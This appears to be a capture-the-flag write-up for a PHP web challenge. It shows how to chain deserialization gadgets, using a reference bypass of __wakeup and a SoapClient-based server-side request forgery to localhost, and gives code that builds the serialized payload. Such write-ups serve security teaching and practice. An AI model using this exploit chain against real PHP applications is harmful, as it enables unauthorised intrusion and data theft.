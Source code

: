 #DeserPlus

**Author:** tel

**Difficulty:** Medium

**Category:** Web

## Title description

Have you learned the common bypassing techniques of PHP deserialization?

## Question analysis

**Exposed port: `80`**

1. flag.php can write the flag to flag.txt, and then you can access `http://xxx/flag.txt` to get the flag, but SSRF is required. Use the `__call` function of the PHP native class `SoapClient` to implement SSRF

2. `__wakeup` in `class A` will set `a` to `hacker?`, which requires common **reference bypass** in PHP deserialization, so use `B::__destruct $this->b = $this->k;` to implement reassignment

```php
<?php

     highlight_file(__FILE__);

     // something in flag.php

     class A
     {
         public $a;
         public $b;

         public function __wakeup()
         {
             $this->a = "hacker?";
         }

         public function __invoke()
         {
             if (isset($this->a) && $this->a == md5($this->a)) {
                 $this->b->uwant();
             }
         }
     }

     class B
     {
         public $a;
         public $b;
         public $k;

         function __destruct()
         {
             $this->b = $this->k;
             die($this->a);
         }
     }

     class C
     {
         public $a;
         public $c;

         public function __toString()
         {
             $cc = $this->c;
             return $cc();
         }
         public function uwant()
         {
             if ($this->a == "phpinfo") {
                 phpinfo();
             } else {
                 $this->a->unexist_function();
             }
         }
     }

     $b = new B();
     $a = new A();
     $b->b = &$a->a;
     $b->k = "0e215962017";
     $c1 = new C();
     $c2 = new C();
     $c1->c = $a;
     $b->a = $c1;
     $c2->a = new SoapClient(null,array('location'=>'http://127.0.0.1/flag.php', 'uri'=>'http://127.0.0.1/flag.php' ));
     // $c2->a = "phpinfo";
     $a->b = $c2;
     echo serialize($b);
```